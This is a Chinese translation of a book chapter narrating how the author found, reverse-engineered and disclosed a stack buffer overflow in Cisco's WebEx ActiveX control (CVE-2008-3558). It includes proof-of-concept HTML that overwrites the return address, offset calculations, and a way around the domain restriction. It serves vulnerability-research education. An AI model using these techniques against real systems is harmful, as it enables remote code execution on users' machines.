








# 第五章。浏览即被控制

### 注意

*2008 年 4 月 6 日，星期日*

*亲爱的日记*，

浏览器和浏览器插件中的漏洞目前非常流行，所以我决定查看一些 ActiveX 控件。我列表上的第一个是思科的在线会议和网页会议软件，名为 WebEx，它在商业中广泛使用。在花了一些时间对 Microsoft 的 Internet Explorer 中的 WebEx ActiveX 控件进行逆向工程之后，我发现了一个明显的错误，如果我用模糊测试而不是阅读汇编代码，我可以在几秒钟内找到这个错误。失败！

# 5.1 漏洞发现

我使用以下过程来搜索漏洞：

### 注意

*我使用 Windows XP SP3 32 位和 Internet Explorer 6 作为以下所有步骤的平台*。

+   第 1 步：列出已注册的 WebEx 对象和导出方法。

+   第 2 步：在浏览器中测试导出方法。

+   第 3 步：在二进制文件中查找对象方法。

+   第 4 步：查找用户可控的输入值。

+   第 5 步：逆向工程对象方法。

### 注意

可疑版本的 WebEx 会议管理器的下载链接可以在 [`www.trapkit.de/books/bhd/`](http://www.trapkit.de/books/bhd/) 找到。

## 第 1 步：列出已注册的 WebEx 对象和导出方法。

在下载并安装了 WebEx 会议管理器软件之后，我启动了 COMRaider^([45)) 以生成控制提供给调用者的导出接口列表。我在 COMRaider 中点击了 **开始** 按钮，并选择 **扫描目录以查找已注册的 COM 服务器** 来测试安装在 *C:\Program Files\Webex\* 中的 WebEx 组件。

如 图 5-1 所示，WebEx 安装目录中注册了两个对象，具有 GUID `{32E26FD9-F435-4A20-A561-35D4B987CFDC}` 和 ProgID `WebexUCFObject.WebexUCFObject.1` 的对象实现了 `IObjectSafety`。由于它被标记为 *安全初始化* 和 *安全脚本*，Internet Explorer 将信任此对象。这使得该对象成为“浏览即被控制”攻击的潜在目标，因为可以从网页内部调用其方法.^([46])



图 5-1. COMRaider 中注册的 WebEx 对象

微软还提供了一个名为 `ClassId.cs` 的方便的 C# 类，该类列出了 ActiveX 控件的各个属性。要使用该类，我在源文件中添加了以下行，并使用 Visual Studio 的 C# 编译器的命令行版本 (`csc`) 编译它：

```
[..]
namespace ClassId
{
    class ClassId
    {
        static void Main(string[] args)
        {
            SWI.ClassId_q.ClassId clsid = new SWI.ClassId_q.ClassId();

            if (args.Length == 0 || (args[0].Equals("/?") == true ||
                args[0].ToLower().StartsWith("-h") == true) ||
                args.Length < 1)
            {
                Console.WriteLine("Usage: ClassID.exe <CLSID>\n");
                return;
            }

            clsid.set_clsid(args[0]);
            System.Console.WriteLine(clsid.ToString());
        }
    }
}
```

要编译和使用该工具，我在命令提示符窗口中运行了以下命令：

```
C:\Documents and Settings\tk\Desktop>`csc /warn:0 /nologo ClassId.cs`
C:\Documents and Settings\tk\Desktop>
`ClassId.exe {32E26FD9-F435-4A20-A561-35D4B987CFDC}`
Clsid: {32E26FD9-F435-4A20-A561-35D4B987CFDC}
Progid: WebexUCFObject.WebexUCFObject.1
Binary Path: C:\Program Files\WebEx\WebEx\824\atucfobj.dll
`Implements IObjectSafety: True`
`Safe For Initialization (IObjectSafety): True`
`Safe For Scripting (IObjectSafety): True`
Safe For Initialization (Registry): False
Safe For Scripting (Registry): False
KillBitted: False
```

工具的输出显示，该对象确实使用 `IObjectSafety` 被标记为 *安全初始化* 和 *安全脚本*。

我随后在 COMRaider 中点击了 **选择** 按钮，以查看由具有 GUID `{32E26FD9-F435-4A20-A561-35D4B987CFDC}` 的对象导出的公共方法列表。如图 图 5-2 所示，该对象导出了一个名为 `NewObject()` 的方法，并接受一个字符串值作为输入。



图 5-2. 由具有 GUID `{32E26FD9-F435-4A20-A561-35D4B987CFDC}` 的对象导出的公共方法。

## 第 2 步：在浏览器中测试导出的方法

在我生成了可用对象和导出方法的列表之后，我编写了一个小的 HTML 文件，该文件使用 VBScript 调用 `NewObject()` 方法：

示例 5-1. 调用 NewObject() 方法的 HTML 文件 (*webex_poc1.html*)

```
01    <html>
02     <title>WebEx PoC 1</title>
03     <body>
04      <object classid="clsid:32E26FD9-F435-4A20-A561-
35D4B987CFDC" id="obj"></object>
05      <script language='vbscript'>
06        arg = String(12, "A")
07        obj.NewObject arg
08      </script>
09     </body>
10    </html>
```

在 示例 5-1 方法的 HTML 文件 (webex_poc1.html)") 的第 4 行中，实例化了具有 GUID 或 ClassID `{32E26FD9-F435-4A20-A561-35D4B987CFDC}` 的对象。在第 7 行，使用字符串值 12 作为参数调用了 `NewObject()` 方法。

为了测试 HTML 文件，我在 Python 中实现了一个小型网络服务器，该服务器会将 *webex_poc1.html* 文件提供给浏览器（见图 示例 5-2"))：

示例 5-2. 在 Python 中实现的简单网络服务器，该服务器将 *webex_poc1.html* 文件提供给浏览器 (*wwwserv.py*)

```
01    import string,cgi
02    from os import curdir, sep
03    from BaseHTTPServer import BaseHTTPRequestHandler, HTTPServer
04
05    class WWWHandler(BaseHTTPRequestHandler):
06
07       def do_GET(self):
08           try:
09               f = open(curdir + sep + "webex_poc1.html")
10
11               self.send_response(200)
12               self.send_header('Content-type', 'text/html')
13               self.end_headers()
14               self.wfile.write(f.read())
15               f.close()
16
17               return
18
19           except IOError:
20               self.send_error(404,'File Not Found: %s' % self.path)
21
22    def main():
23       try:
24           server = HTTPServer(('', 80), WWWHandler)
25           print 'server started'
26           server.serve_forever()
27       except KeyboardInterrupt:
28           print 'shutting down server'
29           server.socket.close()
30
31    if __name__ == '__main__':
32       main()
```

虽然 WebEx 的 ActiveX 控件被标记为脚本安全（见图 图 5-1），但它被设计成只能从 [webex.com](http://webex.com) 域运行。实际上，可以通过 WebEx 域中的 *跨站脚本 (XSS)*^([48]) 漏洞来绕过这一要求。由于 XSS 漏洞在现代网络应用程序中相当普遍，因此在 [webex.com](http://webex.com) 域中识别此类漏洞不应很难。为了在不需要 XSS 漏洞的情况下测试控件，我只需在我的 Windows `hosts` 文件中添加以下条目（见图 *C:\WINDOWS\system32\drivers\etc\hosts\*）：

```
127.0.0.1       localhost, `www.webex.com`
```

之后，我开始运行我的小型 Python 网络服务器，并将 Internet Explorer 指向 [`www.webex.com/`](http://www.webex.com/)（见图 图 5-3）。


图 5-3. 使用我的小型 Python 网络服务器测试 *webex_poc1.html*

## 第 3 步：在二进制文件中查找对象方法

到目前为止，我收集了以下信息：

+   存在一个具有 ClassID `{32E26FD9-F435-4A20-A561-35D4B987CFDC}` 的 WebEx 对象。

+   此对象实现了 `IObjectSafety` 接口，因此是一个有潜力的目标，因为其方法可以从浏览器内部调用。

+   该对象导出一个名为 `NewObject()` 的方法，该方法接受一个用户控制的字符串值作为输入。

为了逆向工程导出的 `NewObject()` 方法，我必须在二进制文件 `atucfobj.dll` 中找到它。为了实现这一点，我使用了一种类似于 Cody Pierce 在他的优秀 MindshaRE 文章中描述的技术.^([49]) 通用思路是在调试浏览器时从 `OLEAUT32!DispCallFunc` 的参数中提取被调用方法的地址。

如果一个 ActiveX 控件的方法被调用，`DispCallFunc()`^([50]) 函数通常会执行实际的调用。此函数由 `OLEAUT32.dll` 导出。调用方法的地址可以通过 `DispCallFunc()` 的前两个参数（称为 `pvInstance` 和 `oVft`）来确定。

要找到 `NewObject()` 方法的地址，我从 WinDbg 内启动了 Internet Explorer^([51))（也可以参考 B.2 节中关于调试器命令的描述）并在 `OLEAUT32!DispCallFunc` 上设置了以下断点（参见图 5-4)）：

```
0:000> `bp OLEAUT32!DispCallFunc "u poi(poi(poi(esp+4))+(poi(esp+8))) L1;gc"`
```

调试器命令 `bp OLEAUT32!DispCallFunc` 在 `DispCallFunc()` 的开始处定义了一个断点。如果断点被触发，则评估函数的前两个参数。第一个函数参数使用命令 `poi(poi(esp+4))` 进行引用，第二个参数通过 `poi(esp+8)` 引用。这些值相加，它们的和代表被调用方法的地址。随后，方法反汇编的第一行（`L1`）被打印到屏幕上（`u poi(result of the computation)`），并且控制执行继续（`gc`）。

然后，我使用 WinDbg 的 `g`（Go）命令启动了 Internet Explorer，并再次导航到 [`www.webex.com/`](http://www.webex.com/)。不出所料，WinDbg 中触发的断点显示了 `atucfobj.dll` 中被调用的 `NewObject()` 方法的内存地址。

如图 5-5 方法的内存地址")所示，在这个例子中，`NewObject()`方法的内存地址是`0x01d5767f`。`atucfobj.dll`本身在地址`0x01d50000`处加载（参见图 5-5 方法的内存地址")中的`ModLoad: 01d50000 01d69000 C:\Program Files\WebEx\WebEx\824\atucfobj.dll`）。因此，`atucfobj.dll`中`NewObject()`的偏移量是`0x01d5767f - 0x01d50000 = 0x767F`。



图 5-4. 在 Internet Explorer 中在`OLEAUT32!DispCallFunc`处设置断点



图 5-5. WinDbg 显示`NewObject()`方法的内存地址

## 第 4 步：查找用户可控输入值

接下来，我使用 IDA Pro 反汇编了二进制文件*C:\Program Files\WebEx\WebEx\824\atucfobj.dll*。在 IDA 中，`atucfobj.dll`的 imagebase 是`0x10000000`。因此，`NewObject()`在反汇编中的地址是`0x1000767f`（imagebase + `NewObject()`的偏移量：`0x10000000 + 0x767F`）（参见图 5-6 方法的反汇编")）。



图 5-6. IDA Pro 中`NewObject()`方法的反汇编

在我开始阅读汇编代码之前，我必须确保哪个函数参数持有通过示例 5-1 方法的 HTML 文件 (webex_poc1.html)")中的 VBScript 提供的用户可控字符串值。由于参数是一个字符串，我猜测我的值被保存在 IDA 中显示的第二个参数`lpWideCharStr`中。然而，我想确保这一点，因此我在`NewObject()`方法处定义了一个新的断点，并在调试器中查看参数（有关以下调试器命令的描述，请参见 B.2 节）。

如 图 5-7 的用户控制参数") 所示，我在 `NewObject()` 的地址处定义了一个新的断点（`0:009> bp 01d5767f`），继续执行 Internet Explorer (`0:009> g`)，并再次导航到 [`www.webex.com/`](http://www.webex.com/) 域。当断点被触发时，我检查了 `NewObject()` 的第二个函数参数的值（`0:000> dd poi(esp+8)` 和 `0:000> du poi(esp+8)`）。如调试器输出所示，用户控制的数据（由 12 个 A 组成的宽字符字符串）确实通过第二个参数传递给了该函数。

最后，我拥有了开始审计安全漏洞所需的所有信息。



图 5-7. 定义新断点后 `NewObject()` 的用户控制参数

## 第 5 步：逆向工程对象方法

回顾一下，我发现了一个明显的漏洞，这个漏洞发生在 ActiveX 控件处理传递给 `NewObject()` 的用户提供的字符串值时。图 5-8") 展示了到达有漏洞函数的代码路径。


图 5-8. 到达有漏洞函数的代码路径（由 IDA Pro 创建）

在 `sub_1000767F` 中，使用 `WideCharToMultiByte()` 函数将用户提供的宽字符字符串转换为字符字符串。之后，调用 `sub_10009642`，并将用户控制的字符字符串复制到另一个缓冲区。`sub_10009642` 中的代码允许最多复制 256 个用户控制的字节到这个新的字符缓冲区（伪 C 代码：`strncpy (new_buffer, user_controlled_string, 256)`）。调用 `sub_10009826` 函数，它随后调用 `sub_100096D0`，然后调用有漏洞的函数 `sub_1000B37D`。

示例 5-3. 有漏洞函数 `sub_1000B37D` 的反汇编（由 IDA Pro 创建）

```
[..]
.text:1000B37D ; int __cdecl sub_1000B37D(`DWORD cbData`,
 LPBYTE lpData, int, int, int)
.text:1000B37D sub_1000B37D proc near
.text:1000B37D
`.text:1000B37D SubKey= byte ptr −10Ch`
.text:1000B37D Type= dword ptr −8
.text:1000B37D hKey= dword ptr −4
.text:1000B37D cbData= dword ptr  8
.text:1000B37D lpData= dword ptr  0Ch
.text:1000B37D arg_8= dword ptr  10h
.text:1000B37D arg_C= dword ptr  14h
.text:1000B37D arg_10= dword ptr  18h
.text:1000B37D
.text:1000B37D push   ebp
.text:1000B37E mov    ebp, esp
.text:1000B380 sub    esp, 10Ch
.text:1000B386 push   edi
`.text:1000B387 lea    eax, [ebp+SubKey] ; the address of SubKey is saved in eax`
`.text:1000B38D push   [ebp+cbData]      ; 4th parameter of sprintf(): cbData`
.text:1000B390 xor    edi, edi
`.text:1000B392 push   offset aAuthoring ; 3rd parameter of sprintf(): "Authoring"`
`.text:1000B397 push   offset aSoftwareWebexU ;`
 `2nd parameter of sprintf(): "SOFTWARE\\..`
`.text:1000B397                         ; ..Webex\\UCF\\Components\\%s\\%s\\Install"`
`.text:1000B39C push   eax              ; 1st parameter of`
 `sprintf(): address of SubKey`
`.text:1000B39D call   ds:sprintf       ; call to sprintf()`
[..]
`.data:10012228 ; char aSoftwareWebexU[]`
`.data:10012228 aSoftwareWebexU db 'SOFTWARE\Webex\UCF\Components\%s\%s\Install',0`
[..]
```

`sub_1000B37D`的第一个参数，称为`cbData`，包含指向存储在新字符缓冲区中的用户控制数据的指针（参见图 5-8")描述中的`new_buffer`）。正如我之前所说的，用户控制的宽字符数据以最大长度为 256 字节的字符串形式存储在这个新缓冲区中。示例 5-3 显示，地址`.text:1000B39D`处的`sprintf()`函数将`cbData`指向的用户控制数据复制到名为`SubKey`的堆栈缓冲区（参见`.text:1000B387`和`.text:1000B39C`）。

接下来，我尝试检索这个`SubKey`堆栈缓冲区的大小。通过按 ctrl-k 键，我打开了 IDA Pro 的默认堆栈帧显示。如图图 5-9 所示，`SubKey`堆栈缓冲区具有固定的 260 字节大小。如果将示例 5-3 中显示的汇编信息与受害函数的堆栈布局信息相结合，则`sprintf()`的调用可以用示例 5-4 的伪 C 代码")中的 C 代码表示。



图 5-9. 使用 IDA Pro 的默认堆栈帧显示确定`SubKey`堆栈缓冲区的大小

示例 5-4. 受害调用`sprintf()`的伪 C 代码

```
[..]
int
sub_1000B37D(DWORD cbData, LPBYTE lpData, int val1, int val2, int val3)
{
  char SubKey[260];

  sprintf(&SubKey, "SOFTWARE\\Webex\\UCF\\Components\\%s\\%s\\Install",
          "Authoring", cbData);
[..]
```

`sprintf()`库函数将`cbData`中的用户控制数据以及字符串“`Authoring`”（9 字节）和格式字符串（39 字节）复制到`SubKey`中。如果`cbData`填充了最大量的用户控制数据（256 字节），则总共将复制 304 字节的数据到堆栈缓冲区。`SubKey`只能容纳最多 260 字节，且`sprintf()`不执行任何长度检查。因此，如图图 5-10 时发生的堆栈缓冲区溢出图")所示，有可能将用户控制数据写入`SubKey`的边界之外，从而导致堆栈缓冲区溢出（参见附录 A.1）。


图 5-10. 将过长的字符串传递给`NewObject()`时发生的堆栈缓冲区溢出图

# 5.2 利用

找到漏洞后，利用起来很简单。我只需要调整传递给 `NewObject()` 的字符串参数的长度，以溢出栈缓冲区并控制当前栈帧的返回地址。

如 图 5-9 所示，`SubKey` 缓冲区到栈上保存的返回地址的距离是 272 字节（保存的返回地址的偏移量 (`+00000004`) 减去 `SubKey` 的偏移量 (`−0000010C`): `0x4 - −0x10c = 0x110` (272))。我还必须考虑到字符串 “`Authoring`” 和部分格式字符串将在用户控制数据之前被复制到 `SubKey` 中（参见 图 5-10 的字符串过长时发生的栈缓冲区溢出示意图")）。总的来说，我必须从 `SubKey` 和保存的返回地址之间的距离中减去 40 字节（“`SOFTWARE\Webex\UCF\Components\Authoring\`”）。所以，我必须提供 232 字节（272 - 40 = 232）的虚拟数据来填充栈并达到保存的返回地址。然后，用户控制数据的接下来的 4 个字节应该覆盖栈上保存的返回地址的值。

因此，我更改了 *webex_poc1.html* 第 6 行提供的字符数，并将新文件命名为 *webex_poc2.html*（参见 示例 5-5 方法的过长字符串的 HTML 文件 (webex_poc2.html)"))：

示例 5-5. 传递给 `NewObject()` 方法的过长字符串的 HTML 文件 (*webex_poc2.html*)

```
01    <html>
02     <title>WebEx PoC 2</title>
03     <body>
04      <object classid="clsid:32E26FD9-F435-4A20-A561-35D4B987CFDC"
 id="obj"></object>
05      <script language='vbscript'>
`06         arg = String(232, "A") + String(4, "B")`
07         obj.NewObject arg
08      </script>
09     </body>
10    </html>
```

然后，我将小型的 Python 网络服务器调整为服务新的 HTML 文件。

原始的 *wwwserv.py*:

```
09            f = open(curdir + sep + "`webex_poc1.html`")
```

调整后的 *wwwserv.py*:

```
09            f = open(curdir + sep + "`webex_poc2.html`")
```

我重新启动了网络服务器，在 WinDbg 中加载了 Internet Explorer，并再次导航到 [`www.webex.com/`](http://www.webex.com/)。

如 图 5-11 所示，我现在完全控制了 `EIP`。该漏洞可以很容易地通过已知的堆喷射技术被用于任意代码执行。


图 5-11. Internet Explorer 的 `EIP` 控制

正如往常一样，德国法律阻止我提供完整的有效利用代码，但如果你感兴趣，你可以在本书网站上观看我录制的一段简短视频，展示了利用代码在书网站上的实际操作.^([53])

如我之前提到的，如果我用 COMRaider 对 ActiveX 控件进行模糊测试而不是阅读汇编代码，我就能更快地找到这个漏洞。但嘿，模糊测试并不像阅读汇编代码那样酷，对吧？

# 5.3 漏洞修复

### 注意

*星期四，2008 年 8 月 14 日*

在第二章、第三章和第四章中，我直接向受损害软件的供应商披露了安全漏洞，并帮助其创建补丁。这次我并没有直接通知供应商，而是将漏洞出售给了漏洞经纪人（Verisign 的 iDefense Lab Vulnerability Contributor Program [VCP]），并让它与思科协调（见第 2.3 节）。

我于 2008 年 4 月 8 日联系了 iDefense。它接受了我的提交，并向思科报告了这个问题。当思科正在开发 ActiveX 控件的新版本时，另一位安全研究员 Elazar Broad 于 2008 年 6 月重新发现了这个漏洞。他也通知了思科，但在一个被称为*完全披露*的过程中公开了漏洞。^([54]) 思科于 2008 年 8 月 14 日发布了修复后的 WebEx 会议管理器版本以及安全公告。总的来说，这是一场大混乱，但最终 Elazar 和我使网络变得更加安全。

# 5.4 经验教训

+   在广泛部署（企业）软件产品中仍然存在明显的、容易利用的漏洞。

+   跨站脚本攻击打破了 ActiveX 域限制。这对于微软的 SiteLock 也是如此。^([55])

+   从漏洞猎手的视角来看，ActiveX 控件是很有潜力和价值的攻击目标。

+   漏洞的重发现（过于频繁）发生了。

# 5.5 补遗

### 注意

*2008 年 9 月 17 日，星期三*

漏洞已修复，并发布了 WebEx 会议管理器的新版本，因此我今天在我的网站上发布了详细的安全公告。^([56]) 该漏洞被分配了 CVE-2008-3558。图 5-12(Figure 5-12. Timeline from discovery of the WebEx Meeting Manager vulnerability until the release of the security advisory)显示了漏洞修复的时间线。



图 5-12. 从发现 WebEx 会议管理器漏洞到发布安全公告的时间线

## 备注

^([45])

^([46])

^([47])

^([48])

^([49])

^([50])

^([51])

^([52])

^([53])

^([54])

^([55])

^([56])

* * *

^([45]) iDefense 的 COMRaider 是一个很好的工具，可以枚举和模糊 COM 对象接口。请参阅[`labs.idefense.com/software/download/?downloadID=23`](http://labs.idefense.com/software/download/?downloadID=23)。

^([46]) 如需更多信息，请查阅“ActiveX 控件的安全初始化和脚本编写”相关内容，链接为 [`msdn.microsoft.com/en-us/library/aa751977(VS.85).aspx`](http://msdn.microsoft.com/en-us/library/aa751977(VS.85).aspx)。

^([47]) 请参阅“不安全等于不危险？如何在 Internet Explorer 中判断 ActiveX 漏洞是否可利用”的相关内容，链接为 [`blogs.technet.com/srd/archive/2008/02/03/activex-controls.aspx`](http://blogs.technet.com/srd/archive/2008/02/03/activex-controls.aspx)。

^([48]) 关于跨站脚本攻击的更多信息，请参考 [`www.owasp.org/index.php/Cross-site_Scripting_(XSS)`](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS))。

^([49]) 请参阅“MindshaRE：动态查找 ActiveX 方法”的相关内容，链接为 [`dvlabs.tippingpoint.com/blog/2009/06/01/mindshare-finding-activex-methods-dynamically/`](http://dvlabs.tippingpoint.com/blog/2009/06/01/mindshare-finding-activex-methods-dynamically/)。

^([50]) 请参阅 [`msdn.microsoft.com/en-us/library/9a16d4e4-a03d-459d-a2ec-3258499f6932(VS.85)`](http://msdn.microsoft.com/en-us/library/9a16d4e4-a03d-459d-a2ec-3258499f6932(VS.85))。

^([51]) WinDbg 是微软的“官方”Windows 调试器，作为免费“Windows 调试工具”套件的一部分进行分发，可在 [`www.microsoft.com/whdc/DevTools/Debugging/default.mspx`](http://www.microsoft.com/whdc/DevTools/Debugging/default.mspx) 获取。

^([52]) 请参阅 [`www.hex-rays.com/idapro/`](http://www.hex-rays.com/idapro/)。

^([53]) 请参阅 [`www.trapkit.de/books/bhd/`](http://www.trapkit.de/books/bhd/)。

^([54]) 请参阅 [`seclists.org/fulldisclosure/2008/Aug/83`](http://seclists.org/fulldisclosure/2008/Aug/83)。

^([55]) 如需了解微软的 SiteLock 的更多信息，请参阅 [`msdn.microsoft.com/en-us/library/bb250471%28VS.85%29.aspx`](http://msdn.microsoft.com/en-us/library/bb250471%28VS.85%29.aspx)。

^([56]) 描述 WebEx 会议管理器漏洞详细信息的我的安全公告可在 [`www.trapkit.de/advisories/TKADV2008-009.txt`](http://www.trapkit.de/advisories/TKADV2008-009.txt) 找到。
